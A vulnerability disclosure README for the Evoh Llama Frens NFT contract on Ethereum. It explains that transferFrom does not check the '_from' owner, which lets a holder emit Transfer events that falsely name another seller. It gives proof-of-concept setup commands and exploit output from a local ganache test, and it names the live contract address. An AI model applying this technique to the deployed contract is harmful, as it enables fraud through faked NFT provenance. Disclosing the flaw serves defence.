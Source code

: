 # CVE_Evoh_Contract
These are the materials about the vulnerability of Evoh NFT contract

# PRODUCT
`EvohClaimable` is a public smart contract running in the [Ethereum blockchain](https://ethereum.org/en/). The source code of this contract is published in https://github.com/evoh-nft/evoh-erc721 by its developer. The information of the deployed contract is in https://etherscan.io/address/0xf883ab97ed3d5a9af062a65b6d4437ea015efd8a.

This contract is responsible for managing the expensive NFTs (Evoh Llama Frens), such as minting them, transfering them, etc.. These NFTs are sold on the famous NFT market Opensea [here](https://opensea.io/collection/evoh-llama-frens), and the total volume has been 39 ETH ($47435.50 USD) at the time when I write this document. This NFT project is still active now.

# Version
This vulnerability is related to the latest version of this smart contract. The sha256 hash code of the smart contract is fa2084d5abca91a62ed1d2f1cad3ec318e6a9a2d7f1510a00d898737b05f48ae. Check it in the information of the deployed contract in https://etherscan.io/address/0xf883ab97ed3d5a9af062a65b6d4437ea015efd8a.

# PROBLEM TYPE
Access control vulnerability

# DESCRIPTION
Since in [ERC-721](https://eips.ethereum.org/EIPS/eip-721) based NFT contract, when the contract executes the functions responsible for transferring NFT, such as 
**transferFrom(address _from, address _to, uint256 _tokenId)** or 
**safeTransferFrom(address _from, address _to, uint256 _tokenId)**,
the contract will transfer the NFT whose ID is **_tokenId** from account **_from** to account **_to**.
In addition, these functions should emit the specific event 
**Transfer(address _from, address _to, uint256 _tokenId)** 
to blockchain system, which enables the off-chain applications (such as NFT market, DApp) to perceive the transfer behaviour of NFT and synchronize it from blockchain. For example, the emitted event will be displayed in the market to inform user "the NFT whose ID is **_tokenId** is transfered from **_from** to **_to**". 
For example, in the [page](https://opensea.io/assets/ethereum/0xf883ab97ed3d5a9af062a65b6d4437ea015efd8a/97), we can find the event displayed in the Item Activity tab.

This contract does not verify the parameter '\_from' of transferFrom and safeTransferFrom functions need to be the owner of NFT '\_tokenId'. This is a defect about access control: if the attacker Bob has the NFT '\_tokenId', he can transfer '\_tokenId' to Mike but he sets the the parameter '\_from' of transferFrom function to be Alice. Then transferFrom function will transfer the '\_tokenId' from Bob to Mike, but the emitted event will announce Alice transfers the NFT '\_tokenId' to Mike. That is, Bob is able to control the seller of NFT with any values, which can fake NFT transfer. Further, even if Bob is not the owner of NFT '\_tokenId', he can launch this attack if he is approved to sell the NFT. Therefore, this defect can lead to the [sleep mint attack](https://kf106.medium.com/how-to-sleepmint-nft-tokens-bc347dc148f2).

I also provide a PoC to reproduce this attack by deploying the same contract on the [ganache](https://trufflesuite.com/ganache/). The steps to execute the PoC are as follow:

1. activate the environment
```bash
$ git clone https://github.com/MacherCS/CVE_Evoh_Contract.git
$ cd CVE_Evoh_Contract
$ sudo docker build -t machercs/ganache:v1 .
$ sudo docker run --network host -it machercs/ganache:v1
```

2. exploit the vulnerability and emit wrong event to announce fake transfer.
```bash
[+] The address of Bob is: 0x90F8bf6A479f320ead074411a4B0e7944Ea8c9C1
[+] The address of Alice is: 0xFFcf8FDEE72ac11b5c542428B35EEF5769C409f0
[+] The address of Mike is: 0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b
...
[+] Bob mints NFT whose ID is 0
...
[+] The owner of NFT 0 is: 0x90F8bf6A479f320ead074411a4B0e7944Ea8c9C1
...
[+] Exploit end. The NFT 0 is transferred by Bob to Mike.
[+] The owner of NFT 0 is: 0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b
[+] The Transfer events in blockchain:
...
{
  logIndex: 0,
  transactionIndex: 0,
  transactionHash: '0x5f29ad15f94935e6246d70fbff2fba919793a9163427e631620ea8ff8a48bcf3',
  blockHash: '0xa736e1b756066edf8186d497a21045a5a055c336055c4462de70a734863cf8a4',
  blockNumber: 6,
  address: '0xe78A0F7E598Cc8b0Bb87894B0F60dD2a88d6a8Ab',
  type: 'mined',
  removed: false,
  id: 'log_8740b08f',
  returnValues: Result {
    '0': '0xFFcf8FDEE72ac11b5c542428B35EEF5769C409f0',
    '1': '0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b',
    '2': '0',
    _from: '0xFFcf8FDEE72ac11b5c542428B35EEF5769C409f0',
    _to: '0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b',
    _tokenId: '0'
  },
  event: 'Transfer',
  signature: '0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef',
  raw: {
    data: '0x',
    topics: [
      '0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef',
      '0x000000000000000000000000ffcf8fdee72ac11b5c542428b35eef5769c409f0',
      '0x00000000000000000000000022d491bde2303f2f43325b2108d26f1eaba1e32b',
      '0x0000000000000000000000000000000000000000000000000000000000000000'
    ]
  }
}
[+] Transfer(from:0xFFcf8FDEE72ac11b5c542428B35EEF5769C409f0, to:0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b, tokenId:0)
[+] The last event records the NFT 0 is transferred from Alice to Mike (instead of from Bob to Mike).
```

# Additional explanation
For the detail explanation of the exploit, please refer to the annotation of *poc.js* file.
The content of *evoh-erc721-master* folder is the source code of `EvohClaimable` contract.
The *CVE_Evoh_Contract/evoh-erc721-master/contracts/Claimable.sol* is the code of deployed contract.
